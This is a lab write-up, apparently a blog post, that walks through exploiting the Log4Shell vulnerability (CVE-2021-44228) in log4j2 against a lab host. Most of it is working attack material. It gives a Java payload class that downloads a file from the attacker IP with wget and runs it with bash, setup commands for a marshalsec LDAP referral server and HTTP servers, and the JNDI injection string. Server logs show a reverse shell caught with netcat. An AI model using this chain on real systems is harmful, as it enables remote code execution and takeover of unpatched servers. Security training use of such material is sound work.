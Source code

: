 ```yaml
---
categories:
- Vulnlab
image:
  path: log4shell.png
layout: post
media_subpath: /assets/posts/2021-12-11-lab-exploiting-log4shell-cve-2021-44228
tags:
- cve
- java
- lab
- vulnlab
title: Lab – Exploiting Log4Shell (CVE-2021-44228)
---
```


#### Background

On December 10th, 2021 the [Log4Shell ](https://www.lunasec.io/docs/blog/log4j-zero-day/)vulnerability, a "0-day" exploit in log4j2 appeared on Twitter. In this post, we will explore how to exploit it with LDAP in a lab environment. In order to be exploitable, you need any logged user input, log4j2 versions 2.0 to 2.14.1, and settings `com.sun.jndi.rmi.object.trustURLCodebase` & `com.sun.jndi.cosnaming.object.trustURLCodebase` set to true (which is not default for Java runtimes >= 8u121).

To my understanding, any Java version will allow the DNS lookup (given the points noted above are true) but not necessarily the RCE via LDAP. In this example, we will exploit it against Java 8u211.

You can find additional information here:

- <https://www.lunasec.io/docs/blog/log4j-zero-day/>
- <https://github.com/Cybereason/Logout4Shell>

#### Exploitation

- Attacker: 10.8.0.2
- Victim: 10.10.10.7

Create the payload java class:

```java
public class RCE {
    static {
        try {
            Runtime r = Runtime.getRuntime();
            Process p = r.exec("wget http://10.8.0.2/x -O /tmp/x");
            p.waitFor();
            r = Runtime.getRuntime();
            p = r.exec("/bin/bash /tmp/x");
            p.waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    public RCE(){
        System.out.println("Is this RCE?");
    }
}
```

Compile the class with the same java version the target uses (this can be guessy, but if debug is enabled it will complain about mismatching versions):

```
javac RCE.java
```

Download, compile & start the server:

```
git clone https://github.com/mbechler/marshalsec.git
cd marshalsec
mvn package -DskipTests
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.8.0.2:8888/#RCE"
```

Start a webserver that hosts the final payload & one that hosts the class file:

```
python3 -m http.server 80
python3 -m http.server 8888
```

Finally, send the payload to the target:

```
${jndi:ldap://10.8.0.2:1389/a}
```

When everything went well, you will get a download of "x" on your webserver which will be executed with bash.

```
Send LDAP reference result for a redirecting to http://10.8.0.2:8888/RCE.class
...
10.10.10.7 - - [11/Dec/2021 16:49:33] "GET /RCE.class HTTP/1.1" 200 -
...
10.10.10.7 - - [11/Dec/2021 16:49:33] "GET /x HTTP/1.1" 200 -
...
nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.8.0.2] from (UNKNOWN) [10.10.10.7] 38670
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

Alternatively, you can also use this [JNDI Server](https://github.com/welk1n/JNDI-Injection-Exploit) which supports LDAP & RMI:

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C <command> -A <address> 
```

If you want to practice in this lab environment, vulnlab is currently open for beta access to [patreon ](https://www.patreon.com/xct)subscribers!